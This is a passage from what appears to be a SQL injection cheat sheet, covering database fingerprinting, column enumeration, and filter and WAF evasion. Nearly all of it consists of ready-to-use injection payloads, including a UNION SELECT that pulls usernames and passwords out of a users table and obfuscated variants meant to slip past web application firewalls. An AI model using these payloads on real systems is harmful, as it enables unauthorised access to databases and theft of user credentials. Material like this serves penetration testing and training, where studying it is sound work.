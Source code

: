 ## 6. Advanced Enumeration

### Database Fingerprinting

**MySQL:**
```sql
' OR 1=1 AND @@version -- 
```

**PostgreSQL:**
```sql
' OR 1=1 AND version() -- 
```

**MSSQL:**
```sql
' OR 1=1 AND @@version -- 
```

### Column Enumeration

**Determine the Number of Columns:**
```sql
' ORDER BY 1 -- 
' ORDER BY 2 -- 
```

**Extract Column Names:**
```sql
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' -- 
```

### Advanced Data Extraction

**Combine Multiple Rows into a Single Output:**
```sql
' UNION SELECT GROUP_CONCAT(username, 0x3a, password) FROM users -- 
```

## 7. Bypassing Filters and WAFs

### Obfuscation

**Using Comments:**
```sql
' UNION/**/SELECT/**/NULL,NULL,NULL -- 
```

### Case Manipulation

**Changing the Case of SQL Keywords:**
```sql
' uNioN SeLecT NULL, NULL -- 
```
